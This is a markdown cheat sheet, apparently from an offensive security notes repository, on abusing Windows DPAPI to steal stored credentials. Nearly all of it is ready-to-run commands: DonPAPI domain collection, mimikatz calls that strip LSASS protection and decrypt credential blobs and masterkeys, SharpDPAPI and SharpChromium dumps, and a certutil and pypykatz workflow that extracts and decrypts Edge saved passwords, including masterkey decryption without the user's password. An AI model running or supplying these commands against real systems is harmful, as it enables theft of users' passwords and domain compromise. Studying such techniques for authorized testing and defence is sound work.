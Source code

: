 ```yaml
---
title: "DPAPI"
date: 2024-7-31
tags: ["DPAPI", "enum", "Windows", "password", "credentials", "DonPAPI"]
---
```


---
### Abuse #1: Auto dump (From Linux)

[DonPAPI](https://github.com/login-securite/DonPAPI)

```bash
DonPAPI collect -d <DOMAIN> -u <USERNAME> -p <PASSWORD> -t <TARGET>
```

### Abuse #1: Auto dump (From Windows - mimikatz)

#### 1. Info Gathering

```powershell
cmd /c "dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Vault & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Credentials & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Protect & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Vault & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Protect"
```

#### 2. Secrets Dump

```powershell
mimikatz.exe "token::elevate" "!+" "!processprotect /process:lsass.exe /remove" "dpapi::cred /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials\<CREDENTIALS_HASH>"' '"dpapi::masterkey /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Protect\<SID>\<PROTECT_HASH> /sid:<SID> /password:<PASSWORD> /protected"' '"dpapi::cred /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials\<CREDENTIALS_HASH>"' "exit"
```

### Abuse #1: Auto dump (From Windows - SharpDPAPI.exe)

```bash
# Run as system
.\SharpDPAPI.exe machinetriage
```

```bash
# Run as user
.\SharpDPAPI.exe credentials /password:<PASSWORD>
```

### Abuse #2: Browser Saved Creds (Automatic)

[SharpChromium.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/SharpChromium.exe)

```powershell
.\SharpChromium.exe logins
```

### Abuse #2: Browser Saved Creds (Manual)

#### 1. Prepare logindata and localstate file

```powershell
# Get Local State json file, copy and paste to local Linux
type "C:\Users\<USER>\appdata\local\microsoft\edge\User Data\Local State"
```

```powershell
# Get Login Data binary file
certutil -encode "C:\Users\<USER>\appdata\local\microsoft\edge\User Data\Default\Login Data" C:\ProgramData\logindata
```

```powershell
# Copy and paste to local Linux
type C:\ProgramData\logindata
```

```bash
# Base64 decode
cat logindata_b64 | base64 -d > logindata
```

```bash
# Extract key from local state
cat localstate | jq -r .os_crypt.encrypted_key | base64 -d | cut -c6- > blob
```

[pypykatz](https://github.com/skelsec/pypykatz)

```bash
# Get masterkey_guid
pypykatz dpapi describe blob blob
```

#### 2. Retrieve Keys

```powershell
# Get master key
certutil -encode "C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<SID>\<MASTERKEY_GUID>" C:\ProgramData\<MASTERKEY_GUID>
```

```powershell
# Copy and paste to local Linux
type C:\ProgramData\<MASTERKEY_GUID>
```

```bash
# Base64 decode
cat masterkey_guid_b64 | base64 -d > masterkey_guid
```

#### 3. Decrypt

```bash
pypykatz dpapi prekey password <SID> <USER_PASSWORD> | tee pkf
```

```bash
pypykatz dpapi masterkey <MASTERKEY_GUID_FILE> pkf -o mkf
```

```bash
pypykatz dpapi chrome --logindata logindata mkf localstate
```

### Abuse #3: Decrpyt Masterkey without password

```powershell
# Take note: Last key
.\mimikatz.exe "dpapi::masterkey /in:C:\users\<USER>\appdata\roaming\microsoft\protect\<SID>\<MASTERKEY_GUID> /rpc" exit
```

```powershell
# Decrypt
.\mimikatz.exe "dpapi::cred /in:C:\users\<USER>\appdata\roaming\microsoft\protect\<SID>\<MASTERKEY_GUID> /masterkey:<KEY>" exit
```

<br>